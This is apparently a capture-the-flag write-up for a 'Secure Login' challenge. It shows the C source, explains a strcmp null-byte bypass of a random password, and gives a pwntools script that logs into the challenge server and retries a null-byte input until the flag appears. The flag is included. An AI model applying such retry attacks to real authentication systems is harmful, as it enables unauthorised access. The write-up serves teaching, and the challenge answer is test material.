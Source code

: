 # Secure Login

My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most secure login service in the world (source).

Try to hack me at /problems/2021/secure_login on the shell server.

Author: kmh

## Challenge

We are given a binary which checks user input against a randomly generated password.
If `strcmp` returns 0, we are given the flag.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Source code

```c
#include <stdio.h>

char password[128];

void generate_password() {
	FILE *file = fopen("/dev/urandom","r");
	fgets(password, 128, file);
	fclose(file);
}

void main() {
	puts("Welcome to my ultra secure login service!");

	// no way they can guess my password if it's random!
	generate_password();

	char input[128];
	printf("Enter the password: ");
	fgets(input, 128, stdin);

	if (strcmp(input, password) == 0) {
		char flag[128];

		FILE *file = fopen("flag.txt","r");
		if (!file) {
		    puts("Error: missing flag.txt.");
		    exit(1);
		}

		fgets(flag, 128, file);
		puts(flag);
	} else {
		puts("Wrong!");
	}
}
```

## Solution

It is not practical to guess the 128 bytes from `/dev/urandom`.
However, `strcmp` stops when it reaches a null byte, as C strings are null-terminated.

As `/dev/urandom` can contain null bytes, there is a 1/256 chance of getting a passcode with a null byte as the first character.
By trying passcodes which also begin with a null byte, we have a 1/256 chance of succeeding on any attempt.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host shell.actf.co --port 22 --user USERNAME --pass PASSWORD --path /problems/2021/secure_login/login
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('login')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'shell.actf.co'
port = int(args.PORT or 22)
user = args.USER or 'USERNAME'
password = args.PASSWORD or 'PASSWORD'
remote_path = '/problems/2021/secure_login/login'

# Connect to the remote SSH server
shell = None
if not args.LOCAL:
    shell = ssh(user, host, port, password)
    shell.set_working_directory(symlink=True)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Execute the target binary on the remote host'''
    if args.GDB:
        return gdb.debug([remote_path] + argv, gdbscript=gdbscript, ssh=shell, *a, **kw)
    else:
        return shell.process([remote_path] + argv, *a, **kw, cwd = '/problems/2021/secure_login/')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

win = False

while not win:
    io = start()
    io.recvuntil('!\n')
    io.sendline('\x00')
    res = io.recvline().decode()
    if "Wrong" not in res:
        win = True
        print(res)
    io.close()

io.interactive()
```

## Flag

`actf{if_youre_reading_this_ive_been_hacked}`

